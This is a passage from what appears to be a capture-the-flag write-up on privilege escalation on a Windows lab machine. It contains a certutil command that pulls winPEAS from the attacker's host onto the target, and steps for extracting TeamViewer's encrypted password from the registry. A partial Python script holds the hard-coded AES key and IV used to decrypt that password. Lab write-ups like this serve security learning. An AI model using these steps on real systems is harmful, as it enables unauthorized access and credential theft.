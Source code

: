 And we finally can go to the `C:\Users\Public` directory to grab our first flag :
![User flag]({{ "assets/Remote/firstFlag.png" | absolute_url }} "User flag")

# Privilege Escalation
## Enumeration
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
```

We download winPEAS on our host and upload it on the target machine with the following command :
(The WinPEAS executable is accessible from hour host by launching a simple HTTP server with python)
`certutil.exe -urlcache -f http://10.10.14.187:8000/winPEASx64.exe C:\Users\Public\winPEAS.exe`

Launch executable :
`PS C:\Users\Public> .\winPEAS.exe`

We got several interesting results :
![winPEAS CVE]({{ "assets/Remote/winpeasCVE.png" | absolute_url }} "CVE listed by WinPEAS")

![winPEAS Services]({{ "assets/Remote/winpeasServices.png" | absolute_url }} "WinPEAS services")

After spending some time trying some exploit on the UsoSvc service without luck, we tried some more enumeration.

The `get-process` (the `tasklist /v` command could also be used) command list the processes actually running and we obtain an interesting result :
![get-process]({{ "assets/Remote/getProcess.png" | absolute_url }} "get-process")

![TeamViewerQC]({{ "assets/Remote/TeamViewerQC.png" | absolute_url }} "TeamViewerQC")

[This blog post](https://whynotsecurity.com/blog/teamviewer/) gave a lot of information about TeamViewer exploitation in order to escalate privilege to `NT AUTHORITY\SYSTEM`

In order to exploit this service we first need to retrieve the value in the register "HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7"

![registerValue]({{ "assets/Remote/registerValue.png" | absolute_url }} "registerValue")

And more precisely this value :

![securityPasswordAES]({{ "assets/Remote/securityPasswordAES.png" | absolute_url }} "securityPasswordAES")

With the previous [link](https://whynotsecurity.com/blog/teamviewer/) we have the following script adapted to our case :
```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
hex_str_cipher2 = "d690a9d0a592327f99bb4c6a6b6d4cbe"			# output from the registry
hex_str_cipher = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"   # The securityPasswordAES value

```